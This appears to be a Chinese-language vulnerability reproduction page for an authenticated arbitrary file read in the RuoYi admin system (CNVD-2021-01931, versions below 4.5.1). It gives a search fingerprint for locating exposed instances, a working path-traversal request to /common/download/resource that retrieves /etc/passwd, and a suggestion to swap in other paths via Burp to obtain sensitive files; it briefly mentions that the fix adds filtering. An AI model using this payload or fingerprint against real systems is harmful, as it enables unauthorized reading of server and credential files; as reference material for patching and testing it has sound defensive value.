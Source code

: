 # 若依管理系统 后台任意文件读取 CNVD-2021-01931

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>RuoYi < v4.5.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="若依-管理系统"</a-checkbox></br>

## 漏洞复现

登录后台后访问 Url

```shell
/common/download/resource?resource=/profile/../../../../etc/passwd
```

![img](../../../.vuepress/public/img/ruoyi-1.png)



访问后会下载文件 **/etc/passwd**



![img](../../../.vuepress/public/img/ruoyi-2.png)



可以使用Burp抓包改变 **/etc/passwd** 为其他文件路径获取敏感信息

![img](../../../.vuepress/public/img/ruoyi-4.png)



![img](../../../.vuepress/public/img/ruoyi-5.png)



在新版本的修复中添加了过滤

![img](../../../.vuepress/public/img/ruoyi-7.png)